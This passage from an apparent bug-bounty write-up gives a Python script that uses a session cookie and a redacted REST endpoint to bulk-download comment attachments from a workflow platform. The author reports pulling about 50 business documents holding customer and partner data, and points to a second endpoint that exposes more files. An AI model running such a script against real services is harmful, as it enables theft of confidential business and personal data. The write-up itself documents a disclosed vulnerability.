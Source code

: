 
    # Just in case
    if not "AttachmentName" in response.text:
        continue

    # Read JSON response (also possible with response.json())
    data = json.loads(response.text)
    for item in data['Items']:
        # Get data, and jump to next iteration if no attachment, we never know
        subject     = item['Subject']
        date        = item['CommentDate']
        attachments = item['Attachments']
        if not attachments:
            continue

        # Iterate over all attachments for a given intsance
        for attachment in attachments:
            name    = attachment['AttachmentName']
            sid     = attachment['AttachmentSID']

            # Write CSV to get a summary
            row = '||'.join(str(instance_id), str(subject), str(date), str(name), str(sid))  + '\n'
            with open('attachments_table.csv', 'a', encoding="utf-8") as f:
                f.write(row)
            
            # Fetch and store file
            url = 'https://redacted.com/rest-service/files/stream/?owner_sid=' + instance_id + '&owner_type=instance&object_sid=' + sid + '&object_type=comment'
            cookies = {'iapi_token':'access%26oauth_token%3b123456789%26oauth_token_secret%3D00000'}
            response = requests.get(url, cookies=cookies)
            
            with open('./ATTACHMENTS/' + name, 'wb') as attachment_file:
                attachment_file.write(response.content)
                print("writen")
{% endhighlight %}

I ran this script on only 30 instances, and I retrieved approx. 50 documents (PDFs, XLSXs, MSGs, and DOCXs) which contain business data i.e. customers and partners data.


##### Other documents
A last word about documents : according to [Integrify API documentation](https://developer.integrify.com/rest/Files/list), there are attachment, but there are also files associated to an instance that are not attachments. So let's try to request this endpoint!
Long story short : we simply have the opportunity to download more and more files.
<div class="col-sm mt-3 mt-md-0">
  {% include blog/figure.html path="assets/img/BUGBOUNTY/01/bug_bounty_01_attachments_9.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>
